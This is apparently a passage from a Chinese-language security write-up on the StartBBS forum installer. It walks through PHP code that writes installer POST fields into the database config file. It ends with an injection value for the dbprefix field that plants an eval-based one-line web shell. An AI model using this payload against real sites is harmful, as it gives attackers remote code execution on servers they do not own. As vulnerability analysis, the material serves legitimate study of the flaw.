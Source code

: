 ```php
                    file_put_contents($file,$dbconfig);

                    //保存config文件

                    if($sub_folder){

                        $this->config->update('myconfig','sub_folder', $sub_folder);

                    }

                    $encryption_key = md5(uniqid());

                    if($encryption_key){

                        $this->config->update('myconfig','encryption_key', $encryption_key);

                    }

                    $data['msg3']="保存配置文件完成！";

                    touch(FCPATH.'install.lock');

                    $data['msg4']="創建鎖定安裝文件install.lock成功";

                    $data['msg5']="安装startbbs成功！";

        }

        $this->load->view('install',$data);

    }
```

當步驟函數的參數為3時，就執行安裝函數_install_do（），這個函數裡初始化了資料庫，並把資料庫配置文件寫入了"/app/config/database.php"。於是，我們可以構造一下資料包直接把一句話寫入到這個配置文件裡。

我們看到,這個函數接收了許多post資料:

```php
　　$dbhost = $this->input->post('dbhost');
　　$dbport = $this->input->post('dbport');
　　$dbname = $this->input->post('dbname');
　　$dbuser = $this->input->post('dbuser');
　　$dbpwd = $this->input->post('dbpwd')?$this->input->post('dbpwd'):'';
　　$dbprefix = $this->input->post('dbprefix');
　　$userid = $this->input->post('admin');
　　$pwd = md5($this->input->post('pwd'));
　　$email = $this->input->post('email');
　　$sub_folder = '/'.$this->input->post('base_url').'/';
```

其中`dbhost`、`dbport`、`dbname`、`dbuser`、`dbpwd`都不能隨便亂寫，亂寫的話安裝就會出錯，而`userid`、`pwd`、`email`、`sub_folder`都是寫入資料庫的，不寫入配置文件。所以就剩下`dbprefix`了，所以我們可以這樣構造這個字段：
```php
dbprefix=sb_';@eval ($_POST[101]);$xxx='
```
